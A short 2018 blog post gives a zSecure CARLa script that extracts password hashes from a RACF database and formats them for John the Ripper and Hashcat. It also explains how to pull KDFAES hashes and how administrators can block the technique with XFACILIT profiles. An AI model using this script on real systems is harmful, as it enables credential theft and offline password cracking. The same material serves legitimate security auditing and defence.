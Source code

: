 ```yaml
---
layout: post
title: Extracting passwords using zSecure
date: 2018-04-24 21:54 +0100
tags: RACF zSecure
---
```

zSecure is an excellent product that I [heartily endorse](https://www.youtube.com/watch?v=BfOmkqz06SY).  

Here is some CARLa to pull out password hashes from a RACF DB and write out the results in JohnTheRipper and/or Hashcat formats. Just delete the relevant lines to suit your needs.  
To pull out KDFAES hashes replace `password` with `pwdx` but be aware that this will print empty lines for users with a DES password only. At the time of writing there is no publicly known way of cracking KDFAES passwords. I expect this will change in time.  

Note that this requires a RACF database to be allocated in SE.1 and will not work with a zSecure unload (since they don't contain passwords).  

**Note for RACF admins:** Define `XFACILIT` profiles of `CKG.CMD.FIELD.PASSWORD` and `CKG.CMD.FIELD.PWDX` with `UACC(NONE)` to prevent this from working.  

```
newlist nopage
  select  segment=base has_password=yes
/* JtR format */
  sortlist KEY(0) | ":$racf$*" | key(0) | "*" | password(hex,0)
/* Hashcat format*/
  sortlist "$racf$*" | key(0) | "*" | password(hex,0)
```
